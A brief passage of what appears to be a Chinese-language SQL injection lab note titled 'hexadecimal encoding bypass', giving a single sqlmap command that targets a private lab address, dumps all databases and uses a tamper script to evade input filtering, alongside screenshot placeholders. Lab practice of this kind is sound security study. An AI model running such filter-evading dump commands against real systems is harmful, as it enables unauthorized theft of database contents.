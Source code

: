 ![image-20250904195119356](images/image-20250904195119356.png)



# 十六进制编码绕过

```
python sqlmap.py -u "http://192.168.126.138/sqli/10.php?id=1" --dump-all --batch --tamper=hex2char
```

![image-20250904195405869](images/image-20250904195405869.png)
